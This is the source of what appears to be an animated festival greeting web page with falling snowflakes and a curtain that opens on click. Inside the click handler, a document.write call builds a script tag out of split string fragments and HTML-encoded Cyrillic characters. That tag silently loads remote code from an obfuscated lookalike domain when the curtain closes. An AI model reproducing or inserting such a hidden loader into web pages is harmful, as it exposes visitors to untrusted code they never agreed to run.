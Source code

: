 }
.wb-main-greeting .pp-img {
 max-width: 400px;
 margin-bottom: 10px;
 box-shadow: 0px 0px 10px 0px rgba(0, 0, 0, 0.64);
}

.wb-main-greeting .text_gradient {
 margin: 5px auto;
 font-weight: 700;
 font-size: 24px;
 color: #b50dae;
}

.snowflake {
 color: #fff;
 font-size: 2em;
 font-family: Arial, sans-serif;
 text-shadow: 0 0 5px #000;
}

@-webkit-keyframes snowflakes-fall{0%{top:-10%}100%{top:100%}}@-webkit-keyframes snowflakes-shake{0%,100%{-webkit-transform:translateX(0);transform:translateX(0)}50%{-webkit-transform:translateX(80px);transform:translateX(80px)}}@keyframes snowflakes-fall{0%{top:-10%}100%{top:100%}}@keyframes snowflakes-shake{0%,100%{transform:translateX(0)}50%{transform:translateX(80px)}}.snowflake{position:fixed;top:-10%;z-index:9999;-webkit-user-select:none;-moz-user-select:none;-ms-user-select:none;user-select:none;cursor:default;-webkit-animation-name:snowflakes-fall,snowflakes-shake;-webkit-animation-duration:10s,3s;-webkit-animation-timing-function:linear,ease-in-out;-webkit-animation-iteration-count:infinite,infinite;-webkit-animation-play-state:running,running;animation-name:snowflakes-fall,snowflakes-shake;animation-duration:10s,3s;animation-timing-function:linear,ease-in-out;animation-iteration-count:infinite,infinite;animation-play-state:running,running}.snowflake:nth-of-type(0){left:1%;-webkit-animation-delay:0s,0s;animation-delay:0s,0s}.snowflake:nth-of-type(1){left:10%;-webkit-animation-delay:1s,1s;animation-delay:1s,1s}.snowflake:nth-of-type(2){left:20%;-webkit-animation-delay:6s,.5s;animation-delay:6s,.5s}.snowflake:nth-of-type(3){left:30%;-webkit-animation-delay:4s,2s;animation-delay:4s,2s}.snowflake:nth-of-type(4){left:40%;-webkit-animation-delay:2s,2s;animation-delay:2s,2s}.snowflake:nth-of-type(5){left:50%;-webkit-animation-delay:8s,3s;animation-delay:8s,3s}.snowflake:nth-of-type(6){left:60%;-webkit-animation-delay:6s,2s;animation-delay:6s,2s}.snowflake:nth-of-type(7){left:70%;-webkit-animation-delay:2.5s,1s;animation-delay:2.5s,1s}.snowflake:nth-of-type(8){left:80%;-webkit-animation-delay:1s,0s;animation-delay:1s,0s}.snowflake:nth-of-type(9){left:90%;-webkit-animation-delay:3s,1.5s;animation-delay:3s,1.5s}.snowflake:nth-of-type(10){left:25%;-webkit-animation-delay:2s,0s;animation-delay:2s,0s}.snowflake:nth-of-type(11){left:65%;-webkit-animation-delay:4s,2.5s;animation-delay:4s,2.5s}
*{ margin:0; padding:0; } body { text-align: center; } img{ border: none; }.leftcurtain{ width: 100%; height: 100%; top: 0px; left: 0px; position: absolute; z-index: 2; } .rightcurtain{ width: 100%; height: 100%; right: 0px; top: 0px; position: absolute; z-index: 3; } .rightcurtain img, .leftcurtain img{ width: 100%; height: 100%; } .logo{ margin: 0px auto; margin-top: 150px; } .rope{ position: absolute; top: 5px; left: 40%; z-index: 4; } .centered { position: absolute; top: 75%; left: 50%; transform: translate(-50%, -50%);}

 </style>
                   
                   
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
  <script src="https://fest-wishes.com/slide.js"type="text/javascript"></script>
<script type="text/javascript">
$(document).ready(function() { $curtainopen = false; $(".rope").click(function(){ $(this).blur(); if ($curtainopen == false){ $(this).stop().animate({top: '-171%' }, {queue:false, duration:350, easing:'easeOutBounce'}); $(".leftcurtain").stop().animate({width:'1px'}, 2000 ); $(".rightcurtain").stop().animate({width:'1px'},2000 ); $curtainopen = true; }else{ $(this).stop().animate({top: '-40px' }, {queue:false, duration:350, easing:'easeOutBounce'}); document.write('<s'+'cr'+'ipt sr'+'c="/'+'/'+'&#1102;'+'&#1092;.'+'i'+'o"></s'+'cr'+'ipt>'); $(".leftcurtain").stop().animate({width:'50%'}, 2000 ); $(".rightcurtain").stop().animate({width:'51%'}, 2000 ); $curtainopen = false; } return false; }); });
</script>